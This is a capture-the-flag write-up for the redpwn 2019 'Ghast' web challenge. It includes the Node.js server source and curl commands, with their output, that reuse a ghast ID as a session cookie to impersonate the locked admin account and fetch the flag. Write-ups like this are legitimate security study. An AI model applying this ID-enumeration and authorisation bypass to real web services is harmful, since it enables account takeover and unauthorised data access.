


# Ghast - Web

### [~$ cd ..](../)

>ghast
>
>Written by: ginkoid
>
>Ghast. It's like a gist, but spookier.

The website was made of three pages.

One for the registration:



One you can access once registered, allowing you to publish a ghast:



and a third one that returned after publication, but that was blank, with the following URL (at least for the ghast shown just above):

**http://chall.2019.redpwn.net:8008/ghasts/%3C!doctype%20html%3E%3Cform%20id=form%3E%20%20your%20name:%20%3Cbr%3E%3Cinput%20type=text%20id=uname%3E%3Cbr%3E%3Cbr%3E%20%20%3Cbutton%20type=submit%3Esubmit%3C/button%3E%3C/form%3E%3Cscript%3E%20%20form.addEventListener('submit',%20async%20(evt)%20=%3E%20%7B%20%20%20%20evt.preventDefault()%20%20%20%20const%20res%20=%20await%20fetch('/api/register',%20%7B%20%20%20%20%20%20method:%20'POST',%20%20%20%20%20%20body:%20JSON.stringify(%7B%20%20%20%20%20%20%20%20name:%20uname.value,%20%20%20%20%20%20%7D),%20%20%20%20%7D)%20%20%20%20const%20text%20=%20await%20res.text()%20%20%20%20if%20(res.status%20===%20200)%20%7B%20%20%20%20%20%20document.cookie%20=%20'user='%20+%20encodeURIComponent(text)%20%20%20%20%20%20location%20=%20'/ghasts/make'%20%20%20%20%7D%20else%20%7B%20%20%20%20%20%20alert(text)%20%20%20%20%7D%20%20%7D)%3C/script%3E**

The [source code](ghast.js) as well as the [config file](package.json) were given:

```js
const { promisify } = require('util')
const http = require('http')
const rawBody = promisify(require('raw-body'))
const cookie = require('cookie')
const secrets = require('./secrets')

let idIdx = 0

const makeId = () => Buffer.from(`ghast:${idIdx++}`).toString('base64').replace(/=/g, '')

const things = new Map()

things.set(makeId(), {
  name: secrets.adminName,
  // to prevent abuse, the admin account is locked
  locked: true,
})

const registerPage = `
<!doctype html>
<form id=form>
  your name: <br><input type=text id=uname><br><br>
  <button type=submit>submit</button>
</form>
<script>
  form.addEventListener('submit', async (evt) => {
    evt.preventDefault()
    const res = await fetch('/api/register', {
      method: 'POST',
      body: JSON.stringify({
        name: uname.value,
      }),
    })
    const text = await res.text()
    if (res.status === 200) {
      document.cookie = 'user=' + encodeURIComponent(text)
      location = '/ghasts/make'
    } else {
      alert(text)
    }
  })
</script>
`

const ghastMakePage = `
<!doctype html>
<form id=form>
  ghast name: <br><input type=text id=gname><br><br>
  ghast content: <br><textarea id=content></textarea><br><br>
  <button type=submit>submit</button>
</form>
<script>
  form.addEventListener('submit', async (evt) => {
    evt.preventDefault()
    const res = await fetch('/api/ghasts', {
      method: 'POST',
      body: JSON.stringify({
        name: gname.value,
        content: content.value,
      }),
    })
    const text = await res.text()
    if (res.status === 200) {
      location = '/ghasts/' + text
    } else {
      alert(text)
    }
  })
</script>
`

const ghastViewPage = `
<!doctype html>
<h1 id=gname></h1>
<div id=content></div>
<script>
  (async () => {
    const res = await fetch('/api/things/' + encodeURIComponent(location.pathname.replace('/ghasts/', '')))
    if (res.status === 200) {
      const body = await res.json()
      gname.textContent = body.name
      content.textContent = body.content
    } else {
      alert(await res.text())
    }
  })()
</script>
`

http.createServer(async (req, res) => {
  let user
  if (req.headers.cookie !== undefined) {
    const userId = cookie.parse(req.headers.cookie).user
    if (things.get(userId) === undefined && req.url !== '/register' && req.url !== '/api/register') {
      res.writeHead(302, {
        location: '/register',
      })
      res.end('')
      return
    } else {
      user = things.get(userId)
    }
  } else if (req.url !== '/register' && req.url !== '/api/register') {
    res.writeHead(302, {
      location: '/register',
    })
    res.end('')
    return
  }
  if (user !== undefined && (req.url === '/register' || req.url === '/')) {
    res.writeHead(302, {
      location: '/ghasts/make',
    })
    res.end('')
  }
  if (req.url === '/api/ghasts' && req.method === 'POST') {
    let body
    try {
      body = JSON.parse(await rawBody(req, {
        limit: '512kb',
      }))
      if (typeof body.name !== 'string' && typeof body.content !== 'string') {
        throw 1
      }
    } catch (e) {
      res.writeHead(400)
      res.end('bad body')
      return
    }
    const id = makeId()
    things.set(id, {
      name: body.name,
      content: body.content,
    })
    res.writeHead(200)
    res.end(id)
  } else if (req.url.startsWith('/api/things/') && req.method === 'GET') {
    const id = req.url.replace('/api/things/', '')
    if (things.get(id) === undefined) {
      res.writeHead(404)
      res.end('ghast not found')
    } else {
      res.writeHead(200)
      res.end(JSON.stringify(things.get(id)))
    }
  } else if (req.url === '/api/register' && req.method === 'POST') {
    let body
    try {
      body = JSON.parse(await rawBody(req, {
        limit: '512kb',
      }))
      if (typeof body.name !== 'string') {
        throw 1
      }
    } catch (e) {
      res.writeHead(400)
      res.end('bad body')
      return
    }
    if (body.name === secrets.adminName) {
      res.writeHead(403)
      res.end('no')
      return
    }
    const id = makeId()
    things.set(id, {
      name: body.name,
    })
    res.writeHead(200)
    res.end(id)
  } else if (req.url === '/api/flag' && req.method === 'GET') {
    if (user.locked) {
      res.writeHead(403)
      res.end('this account is locked')
      return
    }
    if (user.name === secrets.adminName) {
      res.writeHead(200)
      res.end(secrets.flag)
    } else {
      res.writeHead(403)
      res.end('only the admin can wield the flag')
    }
  } else if (req.url === '/register' && req.method === 'GET') {
    res.writeHead(200, {
      'content-type': 'text/html',
    })
    res.end(registerPage)
  } else if (req.url === '/ghasts/make' && req.method === 'GET') {
    res.writeHead(200, {
      'content-type': 'text/html',
    })
    res.end(ghastMakePage)
  } else if (req.url.startsWith('/ghasts/') && req.method === 'GET') {
    res.writeHead(200, {
      'content-type': 'text/html',
    })
    res.end(ghastViewPage)
  } else {
    res.writeHead(404)
    res.end('not found')
  }
}).listen(80, () => {
  console.log('listening on port 80')
})
```

One can browse to `api/flag`, but the account must be unlocked (only the admin account is lock by default), and the username must be the same as the admin's one. However, one cannot register with the admin's username (which is supposed to be unknown)
I read [this write-up ](https://kuhi.to/2019/08/15/redpwn-ctf-2019-writeup/#web-1) telling that incrementing the ID until getting the flag was sufficient. However, I didn't think about it and did it differently.

I knew that the admin was the first user that was registered, then its ID must be `ghast:0`. Base64-encode this and browse to `api/things/<base64-encoded id>` revealed the admin's name: `{"name":"sherlockholmes99","locked":true}`

The weakness I exploited was the fact that ghasts' ID and users' ID were the same, and both objects had an attribute `name`. It meant that once we knew the admin username, we only had to create a ghast with  `sherlockholmes99` as its name, and use the newly created ghast ID as a user to get the flag

At the beginning, the user ID was `Z2hhc3Q6OTQ5MjQ`

```
$ curl -H 'Cookie: user=Z2hhc3Q6OTQ5MjQ' --data '{"name": "sherlockholmes99"}' http://chall.2019.redpwn.net:8008/api/ghasts -v
*   Trying 34.223.35.192...
* TCP_NODELAY set
* Connected to chall.2019.redpwn.net (34.223.35.192) port 8008 (#0)
> POST /api/ghasts HTTP/1.1
> Host: chall.2019.redpwn.net:8008
> User-Agent: curl/7.52.1
> Accept: */*
> Cookie: user=Z2hhc3Q6OTQ5MjQ
> Content-Length: 28
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 28 out of 28 bytes
< HTTP/1.1 200 OK
< Date: Thu, 15 Aug 2019 17:09:07 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
<
* Curl_http_done: called premature == 0
* Connection #0 to host chall.2019.redpwn.net left intact
```

The answer was `Z2hhc3Q6OTQ5NDY`. Use it as user ID and browsing to `api/flag` gave us the flag:

```
$ curl -H 'Cookie: user=Z2hhc3Q6OTQ5NDY'  http://chall.2019.redpwn.net:8008/api/flag -v
*   Trying 34.223.35.192...
* TCP_NODELAY set
* Connected to chall.2019.redpwn.net (34.223.35.192) port 8008 (#0)
> GET /api/flag HTTP/1.1
> Host: chall.2019.redpwn.net:8008
> User-Agent: curl/7.52.1
> Accept: */*
> Cookie: user=Z2hhc3Q6OTQ5NDY
>
< HTTP/1.1 200 OK
< Date: Thu, 15 Aug 2019 17:09:37 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
<
* Curl_http_done: called premature == 0
* Connection #0 to host chall.2019.redpwn.net left intact
flag{th3_AdM1n_ne3dS_A_n3W_nAme}
```

FLAG: **flag{th3_AdM1n_ne3dS_A_n3W_nAme}**

EOF
